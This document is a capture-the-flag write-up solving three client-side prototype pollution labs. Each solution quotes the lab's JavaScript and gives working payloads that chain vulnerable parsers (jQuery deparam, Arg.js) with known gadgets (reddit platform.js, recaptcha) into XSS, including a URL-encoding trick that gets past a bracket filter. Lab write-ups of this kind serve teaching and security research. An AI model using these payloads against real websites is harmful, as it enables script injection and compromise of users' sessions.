 ```yaml
---
title: Prototype Pollution Vulnerable Labs
date: 2021-08-24
author: 1nt3rc3pt0r
author_url: https://twitter.com/_1nt3rc3pt0r_
categories:
 - Web Exploitation
 - Labs
tags:
 - Prototype Pollution
 - Client Side
---
```


**tl;dr**

+ Lab1 - Prototype pollution in deparam when combined with reddit platform.js turns out to be xss
+ Lab2 - Prototype pollution to Xss via arg.js
+ Lab3 - Prototype pollution to Xss via recaptcha 
<!--more-->

**Number of Challenges:** 3

**Challenge Author:** [WHOISbinit](https://twitter.com/WHOISbinit)

**Hosted Challenge:** [here](https://ppvl.whoisbinit.me/)

## Challenge Overview

Few labs based client side Prototype Pollution.

## Solutions

**Lab - I:**

Looking into `main.js`

``` 
window.onload = () => {
    let fragments = location.hash.slice(1);
    if (fragments !== "") localStorage.setItem("ppvl", fragments);
    deparam(atob(localStorage.getItem("ppvl")));
}
```
Js takes input from location.hash and then place them in local storage then passed to deparam() which is [vulnerable to Prototype Pollution](https://snyk.io/vuln/SNYK-JS-JQUERYDEPARAM-1255651).

Redit `platform.js` can be chained with [Prototype Pollution to get xss](https://gist.github.com/keerok/52aa04c35aeb68a383727e978010a47a)

Payload:
 - `__proto__[onload]=alert(1)` 
 - `https://ppvl.whoisbinit.me/lab1/#X19wcm90b19fW29ubG9hZF09YWxlcnQoMSk=` 

**Lab - II:**

Looking into `main.js`

```
let data = {
    small: "Hi, there!",
    big: "Hello, world!"
}

const vuln = document.querySelector("#vuln");
let queryStrings = window.location.search;
let params = new URLSearchParams(queryStrings);

let vulnParams = () => {
    let fragments = Arg.parse(location.hash.substr(1));
    if(data[params.get("type")] !== undefined) vuln.innerHTML = "<h2>"+data[params.get("type")]+"</h2";
    else vuln.innerHTML = "<h2>This region seems like something you need to look at.</h2>";
}

window.onhashchange = () => {
    vulnParams();
}

vulnParams();
```

We have a object called data and `queryStrings` is passed into [URLSearchParams()](https://developer.mozilla.org/en-US/docs/Web/API/URLSearchParams). [Args.parse is vulnerable to Prototype Pollution](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/pp/arg-js.md) and take data value from `params.get("type")` place them to innerHTML which means direct xss if we can pollute object and add value.So `data[params.get("type")]` get polluted.


Payload:
 - `constructor[prototype][test]=%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E` 
 - `https://ppvl.whoisbinit.me/lab2/?type=test#constructor[prototype][test]=%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E` 



**Lab - III:**

Looking into `main.js`

```
let v = document.querySelector("#vuln"),
    r = document.createElement("p"),
    u = window.location != window.parent.location ? document.referrer : document.location;
r.setAttribute("class", "g-recaptcha"), r.setAttribute("data-sitekey", "HighlySecurePrototypes"), v.appendChild(r), setTimeout(() => {
    ~u.indexOf("https://ppvl.whoisbinit.me") && deparam(decodeURI(location.hash.slice(1).replace(/\[\]/i, "")))
}, .1337);
```

`u = window.location != window.parent.location ? document.referrer : document.location;`
If the condition fails we get an object in u which does not have property indexOf() Where code fails at 
`~u.indexOf("https://ppvl.whoisbinit.me")`.
So we have to make `window.location != window.parent.location` to be true.
Inorder to make parent and rendering frame different we have to add the challenge in iframe where location of both differs condition gets satisfied.

```
<iframe src="https://ppvl.whoisbinit.me/lab3" width="1000" height="1000">
```

`~u.indexOf("https://ppvl.whoisbinit.me") && deparam(decodeURI(location.hash.slice(1).replace(/\[\]/i, "")))`

If `~u.indexOf("https://ppvl.whoisbinit.me")` fails it returns -1 and ~-1 is 0. 0 && someobject returns 0 so prototype pollution fails and any number other than 0 Logical And with object returns the object itself.So we have to satisfy this condition too .u is document.referrer which gives details such as where did the current viewed document loaded or referred from .In parent document just give a get request like this `http://localhost/pp_labs.php?bypass=https://ppvl.whoisbinit.me` So the condition `u.indexOf("https://ppvl.whoisbinit.me")` get satisfied in child document(iframe).

`decodeURI(location.hash.slice(1).replace(/\[\]/i,"")))` This just replaced [ and ] which means we can't have something like  `__proto__[test]` as it get replaced.` __proto__.test` is also away but deparam doesn't consider `test` [as __proto__ property](https://openbase.com/js/jquery-deparam) inorder to bypass this restriction we have decodeURI which decode urlencoded to corresponding ascii so we can give [ as %5B and ] as %5D which fails to get detected at regex check.

Payload:

deparam.js is vulnerable to Prototype Pollution and `recaptcha/api.js` is [vulnerable to xss when combined with Prototype Pollution](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/recaptcha.md)

```
<iframe src="https://ppvl.whoisbinit.me/lab3/#__proto__%5Bsrcdoc%5D%5B%5D=<script>alert(1)</script>" width="1000" height="1000">
```

## Rating:

7/10

